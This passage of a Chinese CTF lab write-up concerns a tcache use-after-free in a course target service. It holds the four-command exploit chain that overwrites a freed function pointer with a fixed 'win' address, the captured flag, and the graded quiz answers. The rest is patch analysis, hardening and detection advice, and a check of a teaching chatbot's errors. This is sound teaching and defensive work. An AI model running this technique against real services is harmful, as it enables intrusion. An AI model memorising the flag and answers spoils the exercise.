  -F 'contestMode=0'
# HTTP 200；{"code":0,"msg":"success"}
```

`num` 取所选答案个数（单选 1、多选选 3 个填 3、填空固定 3）。平台回写（`logs/11-submit-response.json`）中 5 条记录 `answerTimes` 均为 1，填空题被规范化为 `{"num":3,"answer":["","true","vmc{...}"]}`（中间位自动写 `true`，第 3 格 flag 原样保留）。两处属平台正常现象、不代表判错：顶层 `isCorrect:false`、各条 `scoreRate:0`。

判分以 `GET /api/student/get/answerHistory?sectionID=6715&contestMode=0` 为准（`logs/12-answerhistory-after.json`、`logs/23-answerhistory-final.json`）：

| order | questionID | 题面标题 | 题型 | 提交值 | isCorrect |
| --- | --- | --- | --- | --- | --- |
| 1 | 9377 | `C035-G3-S1` | 单选 | `{"answer":["B"],"num":1}` | **true** |
| 2 | 9379 | `C035-G3-S2` | 单选 | `{"answer":["D"],"num":1}` | **true** |
| 3 | 9381 | `C035-G3-S3` | 单选 | `{"answer":["A"],"num":1}` | **true** |
| 4 | 9383 | `C035-G3-M` | 多选 | `{"answer":["A","B","D"],"num":3}` | **true** |
| 5 | 9403 | `C035-G3-F` | Flag 填空 | `{"num":3,"answer":["","true","vmc{pteX4l15paSXjJ4H0BVV9eRhPk9Rc8ZV}"]}` | **true** |

**5/5 全部 `isCorrect=true`。** 平台作答页同样 5 题都显示「作答正确」，第 5 题 flag 输入框内为最终 flag（截图 07）；`answerHistory` 的 5 条记录见截图 06。实例侧核对：`instances?ID=1209` 返回 `podID p8zppwgfrg021x42msle733zc`、`state Running`、`ip 172.17.0.13`、`targetPorts [22,70]`、`portInfos 14676→22 / 14677→70`、`image t-11637/c035-g3-f:2026`（截图 08 是「我的虚拟机」第 2 页的 `C035-G3-F` 卡片 + hover 出的端口气泡）。




### 9. 失败尝试与踩坑清单

| # | 尝试 | 现象 | 原因 | 如何调整 |
| --- | --- | --- | --- | --- |
| 1 | 未 create 的 id 直接 `use` | `Segmentation fault` | `objs[id]` 为 `NULL`，`call *(NULL)` | 改走「先 create」的路径；同时把它记成「`alloc_data` 不设置 `objs[]`」的证据（F4） |
| 2 | `create 0/delete 0/use 0` 直接打 `win` | 段错误 | `free` 后块头被 tcache 写成 `next`（首个入链为 `NULL`）⇒ `call 0` | 中间插入 `alloc_data 0 <hex>`，用同尺寸 `malloc` 把块取回并改写头部 |
| 3 | 朴素 `diff a.asm b.asm` 得出「v1 少边界检查」 | 结论错误，与靶机实测矛盾 | v2 `.text` +53 B 导致后续函数整体平移，行级 diff 把 v1 的 `alloc_data` 与 v2 的 `use` 对齐 | 改成**按 `endbr64` 切函数边界 + 去地址/归一化立即数**后再比，并到靶机上实测 `use 8` 复核（步骤 3.5、4） |
| 4 | 教学问答脚本连续 4 次 curl 返回 0 字节 | `curl: (3) URL rejected: Port number was not a decimal number` | 自写的 env 解析没有剥掉 `PLATFORM_BASE='http://…'` 的单引号，URL 里带引号被 curl 拒绝 | 解析时剥离首尾引号，并改用 `--form-string` 避免 `-F` 的特殊字符语义；重跑后 4 问全部成功 |
| 5 | VMC「我的虚拟机」页找不到 `C035-G3-F` 卡片 | 列表 5 条/页共 7 条，该环境在第 2 页，DOM 里根本没有该卡片 | 分页未翻页 | 先点分页 `li` 文本 `2`，再定位卡片内的 `.el-tooltip__trigger` 并 hover 出端口气泡（截图 08） |
| 6 | 首次访问 `/student/vm` 后 6 秒内取 `document.body.innerText` | 内容里没有任何环境名 | 页面异步渲染，实测需约 9 秒 | 等待时间加到 9 秒并轮询后再取 DOM |

### 10. 教学问答：4 问 4 答与 3 处口径错误（截图 09、10）

围绕本题主题向课程教学问答平台（Qwen2.5）提了 **4 个问题**，全部落在**同一会话 `conversation_id = 5623`**，每次间隔 ≥12 s，4 次提问**均首次尝试成功**（无失败、无排队，`queue.position=0`；回答长度 1344 / 1889 / 1424 / 1730 字符）。问答原文另存 `.local/process/7-3-qa-transcript.json`，SSE 原始流在 `logs/qa-0N-attempt1.sse`。

| # | 主题 | 问题要点 | 回答要点与准确性核对 |
| --- | --- | --- | --- |
| Q1 | 漏洞原理 | 为什么裸 UAF 悬空调用会崩、而 `delete` 后立刻 `alloc_data` 就能稳定劫持；根因该归到释放端还是使用端、为何修复要两端协同 | **结论正确**：明确说「根因是释放后未失效 + 使用前未校验，必须两端协同」，并复述了 `delete` 置 0、`use` 加 `if(!used[id]) return` 的补丁形状；但机理段把「free 后块进 tcache、下次分配会被重用」**说反了**（称「free 后内存块被直接从 tcache 中移除」「不会被 tcache 重用」），与本题实测相反 |
| Q2 | 机制细节 | tcache LIFO 与 `counts`、每 class 默认容量与可调项、safe-linking 保护哪个字段、`tcache_get` 是否校验 `fd` | 答对 LIFO 语义、答对 `tcache_get` 不校验 `fd`、答对 safe-linking 保护 `fd`/`next`；但**有 3 处口径错误**，详见下表 |
| Q3 | 加固与修复 | 编码层（`delete`/`use`/`create` 各怎么做）、编译运行层（FORTIFY / stack-protector / CFI / `MALLOC_CHECK_` / `tcache_count=0`）各挡什么、为何只改一处有绕过 | 编码层建议**正确**（`objs[id]=NULL`、`used[id]=false`、`use` 双重校验、`create` 拒绝重复 id）；编译层逐项给了「挡得住/挡不住」，总体可用但**偏笼统**，未点出「本题 `win` 本身是带 `endbr64` 的合法函数入口，CFI/CET 挡不住这种『跳到程序里本来存在的敏感函数』」 |
| Q4 | 检测与应急排查 | 无源码时如何定位跨函数协同补丁（导入表优先、函数边界对齐、BinDiff/Diaphora、ASan/Valgrind 与容器排查线索） | 流程方向**正确**（先看 `dynsym`、按函数边界对齐、工具筛候选、ASan/Valgrind 动态验证 + 容器日志/资源/内核日志线索），但工具建议**偏泛且有一处硬错**：把「`ndiff` 或 `meld`」当成结构对齐工具——二者是文本 / 目录 diff 工具，不是二进制函数级比对工具；对 BinDiff/Diaphora 的描述也未提「相似度排序只是候选筛选、需人工核对」，而这恰恰是本题踩坑处 |

**口径说明（如实记录教学模型回答中的错误，均不作为解题依据）**：

- **Q2 第 1 处**：「每个 size class 的 tcache 缓存**默认值是 16 个块**」——**错**，glibc 默认 `tcache_count = 7`（2.26 起一直是 7）；
- **Q2 第 2 处**：「可以通过 `GLIBC_TUNABLES` 中的 **`TUNABLE_TCACHE_MAX_ENTRIES`** 调整」——**错**，正确的可调项名是 `glibc.malloc.tcache_count`；
- **Q2 第 3 处**：「`alloc_data 0 4012b6`：重新分配一个大小为 **4012b6** 的内存块」——**错**，`4012b6` 是**写进块头的 8 字节值**（`win` 地址），分配大小始终是 `malloc(8)`；同段的例子分析还把「`fd` 字段被覆盖为 `0x4012b6`」当成跳转原因，实际被 `use` 取用并 `call` 的是 **chunk 头部那 8 字节**，与 tcache 的 `fd` 无关；
- **Q1**：机理段「free 后块被直接从 tcache 移除、不会被重用」**是错的**（结论部分仍正确）；
- **Q4**：「使用工具如 `ndiff` 或 `meld`」**不对路**（见上表）。

**教学问答的截图用会话指纹核对**：`#hist-list .hist-item[data-id="5623"]` 唯一命中；主区域文本 `obj-mgr` / `tcache_count` / `safe-linking` / `AddressSanitizer` / `used[id]` **5/5 命中**；活动项标题与 `q1` 前 60 字逐字一致（左栏高亮项时间 `10-16 16:24 · 8 条`）。


### 11. 截图真实性与脱敏说明

`7-3/screenshots/` 共 **11 张 PNG，无其他文件**（渲染源 HTML 放在 `.local/process/7-3-scripts/render/`，脚本与原始日志在 `.local/process/7-3-scripts/`，均不入库）。按取证方式分两类，**图注与正文均如实区分**：

| 文件 | 内容 | 真实性 | 脱敏 |
| --- | --- | --- | --- |
| `01` | 靶机 banner + `create/use/delete/quit` 逐条回显 + `id` 边界与存活探测 | **真实命令回显的渲染稿**（非终端实拍；图内顶部自带标注） | 无个人信息 |
| `02` | v1/v2 的 `.dynsym` 与 `.rela.plt`（逐字节相同）、节表（`.text`+53 / `.rodata`+8）、12 函数规范化比对表 | 同上 | 无 |
| `03` | `delete` / `use` 两函数的 v1-vs-v2 反汇编对照（新增指令高亮）+「漏洞点 → 补丁点」对照表 | 同上 | 无 |
| `04` | 靶机 4 条失败对照 + 本机 amd64 容器 6 组用例的 v1/v2 矩阵 | 同上 | 无 |
| `05` | 完整利用回显、换 id 复现两次、flag、4 条命令原理 | 同上 | 无 |
| `05b` | Docker amd64 里同一 payload 打 v1 出 flag / 打 v2 回 `invalid` 与结论 | 同上 | 无 |
| `06` | `submitAnswers` 命令 + 平台回写 + 5 题 `isCorrect:true` | 同上 | **渲染前整段删除 `currentUser`**（姓名/账号/学号/`lastIP`）；保留 `userID:3014`（内部数字 ID，非个人信息，与 5-x/6-x 口径一致） |
| `07` | VMC 作答页 `/student/course/answer/6715`：5 题「作答正确」，第 5 题 flag 框内为最终 flag | **真实页面截图**（无头 Chrome + playwright-core，登录态；viewport 1280×2400、`dSF=2`，PNG 2560×4800） | **已涂白**昵称 |
| `08` | VMC「我的虚拟机」第 2 页 `C035-G3-F` 卡片 + hover 端口气泡（`22→14676`、`70→14677`） | 真实页面截图（viewport 1280×1150、`dSF=2`，PNG 2560×2300） | **已涂白**昵称 |
| `09` | QA `/chat`：左栏高亮会话 5623（8 条）+ 主区域 Q1 原文 | 真实页面截图（viewport 1280×1000、`dSF=2`，PNG 2560×2000） | **已涂白**账号胶囊 |
| `10` | 同一会话滚到底部（Q4 与回答） | 真实页面截图（同参数） | **已涂白**账号胶囊 |

**为什么终端类是渲染稿**：`obj-mgr` 是**裸 TCP 服务、没有网页界面**，无法用无头浏览器实拍；本机 Agent 进程又没有屏幕录制权限（`screencapture` 报 `could not create image from display`）。因此 `01`–`06` 把**真实命令与原始日志输出逐字复制**渲染成黑底白字 HTML 再截图，**每张图顶部都标注「真实命令回显的渲染稿（非终端实拍）」**，未冒充终端实拍；脚本只做 `html.escape`，未手工改写字符。`01`–`06` 无需涂白的判据：图内只有命令、回显与 JSON，唯一的 IP `172.17.0.13` 是课程靶场宿主机地址，不含账号、昵称、学号等个人信息字段（`06` 另做了 `currentUser` 删除）。

**VMC 两张（`07`/`08`）确实渲染了账号昵称，已涂白**（脚本 `.local/process/7-3-scripts/mask_vmc_header_73.py`）：

- 定位方式为**像素簇实测**（白像素列聚类，`y∈[30,150]`、`x>0.78W`）：`07`（PNG 2560×4800）昵称 `x=2440-2506 y=69-100`（宽 67）⇒ 涂白矩形 **`(2430,53)-(2516,116)`**；`08`（PNG 2560×2300）昵称 `x=2320-2386 y=69-100`（宽 67）⇒ 涂白矩形 **`(2310,53)-(2396,116)`**；
- 填充色为**逐列采样**得到的顶栏背景（box 上沿上方 6 px 与下沿下方 6 px 取平均），实测首列/末列均为 **`rgb(114,177,239)`**；ink 判据 = 与背景差 >60 的像素数，涂白后矩形内 ink 由 **1263 → 502**（残留 502 即后写入的白色「账号已脱敏」文字）；
- 复验裁剪 `shots/verify-07-…png`、`verify-08-…png` 目视确认昵称已被覆盖、右侧铃铛与「文A」图标完好。

**问答页两张（`09`/`10`）确实有账号胶囊，已涂白**（脚本 `.local/process/7-3-scripts/mask_qa_account_73.py`）：

- 坐标由无头 Chrome 直接读 `.who span` 的 `getBoundingClientRect()`：CSS `x=910.047 y=25 w=169.547 h=26.484` ⇒ device（`dSF=2`）`x=1820..2159 / y=50..102`（`logs/22-qa-capsule-measure.txt`）；
- 用**深色像素聚类独立复核**：`x=1822-1886`（昵称）+ `x=1912-2134`（学号括号段）都落在涂白矩形 **`(1812,42)-(2169,110)`** 内；右侧 `2184-2319`「帮助」、`2344-2503`「退出」**未被触碰**；
- 填充实测页头背景 **`rgb(255,252,247)`**，矩形内深色像素 **2854 → 887**（残留为「账号已脱敏」灰字）；复验裁剪 `shots/verify-09-…png`、`verify-10-…png`。

渲染源 HTML 与中间图（`render/`、`shots/`、`verify-*`）都在 `.local/process/7-3-scripts/` 下，**不入库**。本文正文同样不记录任何凭据、cookie 或个人信息。

### 12. 靶机遗留物

| 位置 | 内容 | 说明 |
| --- | --- | --- |
| 靶机 `172.17.0.13:14677` | **无文件落地** | 全程只在服务里 `create` / `delete` / `alloc_data` / `use` 堆对象，没有写文件、没有改靶机状态、没有起后台进程；成功路径由 `win` 的 `_exit(0)` 直接结束进程，崩溃路径（`call NULL` / `call 0x41414141`）由服务端回收 |
| 本机 | `7-3/screenshots/`（11 张 PNG，无其它文件）；`.local/process/7-3-scripts/`（`objmgr.py`、`static_evidence_73.py`、`qa_ask.py`、`render_make_73.py`、`mask_vmc_header_73.py`、`mask_qa_account_73.py`、`shots_render_73.mjs`、`vmc_shots_73.mjs`、`vmc_instance_shot_73.mjs`、`qa_shots_73.mjs`、`files/challenge_v{1,2}.elf`、`render/` 渲染源 HTML、`shots/` 与 `verify-*` 复验裁剪图、`logs/` 原始输出与问答 SSE）；`.local/process/7-3-{ctf-process.md,qa-transcript.json,answers-rationale.md}` | `.local/` 与 `/tmp/shot/` 均不入库 |
| 容器实例 | podID `p8zppwgfrg021x42msle733zc`（`C035-G3-F`，容器 `s-149925`）交付时仍在 `Running`，本次未销毁 | `saveTime` 约 3 小时，到期由平台回收；如需善后可手动停止 |

## Flag

```text
vmc{pteX4l15paSXjJ4H0BVV9eRhPk9Rc8ZV}
```

该 flag 由靶机服务 `172.17.0.13:14677` 在 `use 0` 那一行**直接打印**（走 `win 0x4012b6` 的 `open("/flag")` + `write(1,…)` 路径，**没有 token、没有兑换服务**），换 id 复现两次结果一致；与平台作答页第 5 题输入框内的值、`answerHistory` 中第 5 条（questionID 9403）判定为正确的提交值三者逐字一致。Lead 用同样的 4 条命令**独立复现**，flag 逐字相同。

## 总结与心得

### 漏洞原理

1. **根因是「对象生命周期与指针生命周期不一致」**：`delete(id)` 只 `free(objs[id])`，既不清 `objs[id]`（悬空指针留在数组里），也不清 `used[id]`（槽位仍被标记为存活）。这是 CWE-416（Use-After-Free）的教科书形态——**不是"内存里残留了什么值"的问题，而是"指针还在被使用"的问题**，所以"分配器释放时自动清零"并不能消除它（清成 0 只是把可利用的函数指针变成 `call NULL`）。
2. **利用原语来自「同 size class 的确定性复用」**：`create` 的对象块与 `alloc_data` 的数据块都是 `malloc(8)`（chunk size 0x20）。glibc tcache 是**每线程 LIFO 单链表**，`free` 头插、`malloc` 取头，因此"释放后立刻申请同尺寸"会**确定性地**拿回同一块。这一步把 UAF 从"也许能利用"变成"稳定可控"：`data[id]` 与悬空的 `objs[id]` 指向同一地址，`*data[id] = hex` 等价于**向悬空函数指针写入任意 8 字节**。
3. **使用端没有任何存活校验，等于把写原语直接接到控制流上**：`use(id)` 在边界检查之后直接 `mov rax,[objs+id*8] → mov rax,[rax] → call rax`，中间没有 `used[id]` / `objs[id]` 的任何判断。非 PIE 又让 `win = 0x4012b6` 成为编译期常量，于是 4 条命令就能把控制流送到 `open("/flag")`。
4. **`win` 自身开文件、写 stdout、`_exit(0)`**：它不依赖任何"凭证下发"逻辑，也不返回——`write(1, buf, n)` 直接把 `/flag` 输出到连接上，所以本题**没有 token 环节、没有兑换服务**，利用成功即拿 flag。这一点也在 Lead 的独立复核里得到确认。
5. **正确的补丁形状是「释放端置位 + 使用端校验标志」，两处必须互补**：v2 在 `delete` 里补 `used[id]=0`（+16 B）、在 `use` 里补 `if(!used[id]){puts("invalid");return;}`（+37 B），合计 53 B 恰等于 `.text` 增量。只补任一处都不成立：只置位不校验 ⇒ 使用端依旧放行，原路径可用；只校验不置位 ⇒ `used[id]` 恒为 1，校验形同虚设。**"补丁有效性"的实证是：同一串 payload 打 v1 打印 `/flag`、打 v2 只回 `invalid`，且 `0x4012b6` 其实已经被写进内存——只是再没有任何路径去调用它。**
6. **v2 仍是"治标"的补丁，残留面清楚可列**：`objs[id]` 在 v2 的 `delete` 里仍未置 `NULL`（悬空指针还在，只靠 `used[]` 标志挡）；`alloc_data` 两版逐指令相同，仍不校验存活、不写 `used[]`，仍能对任意合法 id 分配并写入任意值（一旦将来出现别的消费路径，写原语会重新变得可用）；`create` 两版都不检查 id 是否已被占用，重复 `create` 会泄漏旧块。另外它顺带修掉了 double free（`used[id]=0` 后第二次 `delete` 走 `bad id`），这更像是补丁的"副作用"而非针对性修复。

### 做题方法

- **先看导入表 / `dynsym`，再决定怎么 diff**：本题两个版本的导入表逐字节相同，说明"没有换 API"，线索只可能在 `.text` 的指令级；如果按 7-1/7-2 的经验只盯导入表，就会一无所获。反过来，7-1 的 `gets` 消失、7-2 的 `fputs` 出现，都是导入表直接给出的答案——**同一批题的两条互补经验**。
- **函数边界对齐是差分的前提，不是可选项**：本题 v2 的 `.text` 只大了 53 字节，`alloc_data`/`use`/`main` 就整体平移了 `0x10`/`0x10`/`0x35`。朴素文本 diff 会把 v1 的 `alloc_data` 与 v2 的 `use` 对齐，得出"v1 少了 `id` 边界检查"的错误结论。正确做法是**按 `endbr64` 切函数、归一化地址与立即数后再比**；本次 12 个函数里干净地剩下 2 个真差异，且 16+37=53 与节表账目完全自洽——**当差分量能与节表尺寸对上账时，结论的可信度会高一个量级**。
- **静态结论必须到目标上实测一遍**：边界检查这件事如果只做静态推断，很容易被错位 diff 带偏；直接在靶机上打 `use 8` / `use -1` / `delete 8` / `delete -1` / `alloc_data 8 4141`，六个 `bad id` 就把结论钉死了。**"我算出来的"与"它实际回显的"必须对账。**
- **用失败对照把因果拆开**：F1（悬空不复用 → `call NULL` 崩）证明"必须改写块头"；F2（`0x41414141` → 崩）证明"块头内容由 `alloc_data` 完全控制"；F4（未 create → 崩）证明"`alloc_data` 不设置 `objs[]`"；F3（越界 `bad id`）证明"边界检查与本题补丁无关"。缺任何一条，对机制的解释都会留下空档。
- **补丁有效性要做"双版本同一 payload"的对照**：本机 macOS 跑不了 ELF，用 Docker 的 `linux/amd64` 跑两个版本、只换目标 ELF，是最干净的**单变量实验**——v1 出 flag、v2 出 `invalid`，比任何文字论证都直接；再配 6 组用例矩阵，还能顺带看出补丁"修了什么、没修什么"（A/E/F 是使用端被拦，C 是释放端置位的效果，D 说明边界检查两版一样）。
- **平台提交的两个格式约束**：`answers` 字段必须外层包 `{"questionID":…,"answer":"<内层 JSON>"}`；`num` 取所选答案个数（单选 1、多选选 n 个填 n、填空固定 3，flag 放第 3 格）。判分只看 `answerHistory[].isCorrect`，顶层 `isCorrect`/`scoreRate` 不是判分依据；本题提交前先把 4 道选择题的判定与理由落盘，再一次性提交，5/5 通过。
- **对教学模型的回答保持复核**：本题 4 问里 Q2 有 3 处明确错误（tcache 默认 7 说成 16、可调项名 `TUNABLE_TCACHE_MAX_ENTRIES` 写错、把 `4012b6` 当成分配大小），Q1 把 tcache 的复用方向说反，Q4 把 `ndiff`/`meld` 当成函数级比对工具。教学问答适合梳理思路，**结论必须回到反汇编、靶机回显与本地双版本实测上验证**。

### 修复建议

- **代码级（本题要害，v2 只做了一半）**：`delete` 里 `free` 之后应当**同时**做两件事——`objs[id] = NULL;` 与 `used[id] = 0;`。只清标志不清指针，悬空指针仍然存在，一旦有别的路径（日志打印、结构复用、新命令）去解引用它就立刻重开 UAF；`use` 前应做**双重校验**：`if (!used[id] || objs[id] == NULL) { puts("invalid"); return; }`；`create` 遇到已被占用的 id 应当拒绝（返回错误）而不是直接覆盖，否则重复 `create` 会泄漏旧块，长期运行会被堆耗尽。
- **不要给 `alloc_data` 留"无主写原语"**：v2 的 `alloc_data` 与 v1 逐指令相同，仍能对任意合法 id 分配并写入任意 8 字节。应当让它也做存活校验（`used[id]` 为 0 直接拒绝），或至少写入后立即把 `data[id]` 置空，避免"能写进堆、只是暂时没人读"的状态长期存在——**补丁的完备性应按"是否还存在可利用原语"判断，而不是按"当前有没有调用点"判断**。
- **编译期 / 运行期加固，以及各自挡不住什么**：`-fstack-protector` / `-D_FORTIFY_SOURCE` 针对栈溢出与部分越界，**对本题这类堆 UAF 无能为力**，不要当作修复手段；`-fsanitize=cfi` / Intel CET（两个版本里都已有 `endbr64`）只能约束"间接跳转到非法目标"，**但本题 `call rax` 的目标 `0x4012b6` 是带 `endbr64` 的合法函数入口**，CFI 挡不住这种"跳到程序里本来就存在的敏感函数"；`MALLOC_CHECK_` 能更早暴露 double free / 堆元数据损坏（本题 v1 的 double free 会直接 `free(): double free detected in tcache 2` 中止，实测如此），属于"提高发现概率"；`GLIBC_TUNABLES=glibc.malloc.tcache_count=0` 关掉 tcache 后，同尺寸 `free`+`malloc` 不再确定性返回同一块，**只会降低利用的稳定性，不治本**。真正对症的是**把对象生命周期管理写对**（置空 + 校验 + 去重），并用 ASan/Valgrind 把 UAF 在测试阶段就打出来。
- **把"敏感能力"从易达目标上挪开**：`win`（`open("/flag")` + `write`）是二进制里地址固定的函数（非 PIE，`0x4012b6`），任何一次可控的间接调用命中它就等于拿到 flag。加固上应让 flag 不与该进程同权限可读（独立服务 + 鉴权 + 权限最小化），而不是只靠"调用点被拦住"。
- **检测与应急排查要点**（对应教学问答 Q4，并修正其工具建议）：服务端异常形态——进程非正常终止（本题失败路径为 `Segmentation fault`，本地 double free 为 glibc abort）、**glibc 报 `free(): double free detected`**、单条连接里出现"`delete <id>` 紧跟 `alloc_data <id> <hex>` 再 `use <id>`"这种高度可疑的三连模式（正常业务不需要"释放后立刻往同一 id 写 8 字节再调用"）；处置上保留 core dump 与进程内存镜像、核对同批二进制的版本与补丁差异（`objdump` 按函数边界对齐比对）、排查同主机同类服务的相同模式；工具上应以 **BinDiff / Diaphora**（函数级相似度**只作候选筛选**、必须人工核对每处差异）为主，`ndiff` / `meld` 这类文本或目录 diff 工具不能替代；有条件时用 **AddressSanitizer（`heap-use-after-free` 报告）或 Valgrind memcheck** 在预发环境复现，并结合容器日志 / `docker stats` / 内核日志定位。

原始过程记录：`.local/process/7-3-ctf-process.md`；教学问答原文：`.local/process/7-3-qa-transcript.json`；选择题判定预登记：`.local/process/7-3-answers-rationale.md`；Lead 独立复核（含对本题初判线索的更正）：`.local/process/7-1-7-2-7-3-lead-verification.md`；复现脚本与全部证据日志：`.local/process/7-3-scripts/`（`objmgr.py`：裸 socket 交互与回显 tee；`static_evidence_73.py`：节表 / `dynsym` / 函数级比对；`render_make_73.py` + `shots_render_73.mjs`：渲染稿；`mask_vmc_header_73.py` / `mask_qa_account_73.py`：两处脱敏；`files/challenge_v{1,2}.elf`；`logs/` 原始输出与问答 SSE；`render/` 渲染源与复验裁剪图）。
